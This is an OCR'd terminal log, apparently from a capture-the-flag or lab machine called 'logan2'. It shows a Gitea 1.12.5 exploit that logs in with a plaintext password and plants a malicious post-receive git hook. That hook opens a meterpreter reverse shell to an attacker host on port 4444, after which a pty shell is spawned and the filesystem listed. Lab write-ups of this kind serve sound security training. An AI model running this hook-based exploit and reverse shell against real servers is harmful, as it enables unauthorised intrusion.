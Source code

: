 ```bash
[+] The target appears to be vulnerable. Gitea version is 1.12.5
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Authenticate with "logan/Super_logan1234"
[+] Logged in
[*] Create repository "Prodder_Bigtax"
[+] Repository created
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created, shell incoming...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Sending stage (3045380 bytes) to 10.0.2.69
[*] Meterpreter session 1 opened (10.0.2.60:4444 -> 10.0.2.69:44282) at 2023-10-13 21:40:11 +0530
[*] Cleaning up
[*] Repository Prodder_Bigtax deleted.

meterpreter > shell
Process 8895 created.
Channel 1 created.
sh: 0: getcwd() failed: No such file or directory

python3 -c 'import pty;pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
git@logan2:$ 
git@logan2:$ /bin/bash -i
/bin/bash -i
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
git@logan2:$ ls -al
ls -al
total 0
git@logan2:$ id
id
uid=104(git) gid=113(git) groups=113(git)
git@logan2:$ cd /
cd /
chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
git@logan2:/$ ls -al
ls -al
total 68
drwxr-xr-x  18 root root  4096 Aug 27 14:34 .
drwxr-xr-x  18 root root  4096 Aug 27 14:34 ..
lrwxrwxrwx   1 root root     7 Aug 27 14:31 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Aug 27 14:35 boot
drwxr-xr-x  17 root root  3300 Oct 12 23:44 dev
drwxr-xr-x  79 root root  4096 Oct 13 11:08 etc
drwxr-xr-x   5 root root  4096 Sep 11 06:29 home
lrwxrwxrwx   1 root root    30 Aug 27 14:34 initrd.img -> boot/initrd.img-6.1.0-11-amd64
lrwxrwxrwx   1 root root    30 Aug 27 14:32 initrd.img.old -> boot/initrd.img-6.1.0-10-amd64
lrwxrwxrwx   1 root root     7 Aug 27 14:31 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 27 14:31 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 27 14:31 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 27 14:31 libx32 -> usr/libx32
drwx------   2 root root 16384 Aug 27 14:31 lost+found
drwxr-xr-x   3 root root  4096 Aug 27 14:31 media
drwxr-xr-x   2 root root  4096 Aug 27 14:31 mnt
drwx------   4 root root  4096 Sep 13 05:36 opt
dr-xr-xr-x 151 root root     0 Oct 12 23:44 proc
drwx------   5 root root  4096 Sep 14 03:33 root
drwxr-xr-x  20 root root   560 Oct 12 23:44 run
lrwxrwxrwx   1 root root     8 Aug 27 14:31 sbin -> usr/sbin
```